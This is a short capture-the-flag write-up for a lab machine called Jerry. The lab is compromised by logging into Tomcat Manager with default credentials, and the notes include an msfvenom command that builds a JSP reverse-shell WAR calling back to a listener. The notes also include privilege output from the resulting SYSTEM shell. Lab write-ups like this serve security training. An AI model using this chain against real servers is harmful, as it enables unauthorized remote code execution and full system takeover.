

# Jerry
Name: Jerry  
Date: 
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Nuclei found a default login for Tomcat Manager see [[tomcat-default-login-http___10.129.99.114_8080_manager_html]]. Nikto also

## Foothold

Using default credentials to access the Tomcat Manager, we can upload a WAR file to deploy a shell.


Using msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o shell.war
```

Uploaded the file and the clicked the /shell listing. 



## Well

You are `nt authority\system` so...
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

Flags are in `C:\Users\Adminstrator\Desktop\flags`
You can escape windows file names with spaces with a `"2 for the price of 1.txt"`

## References

[vk9-sec - Tomcat manager research](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)


      
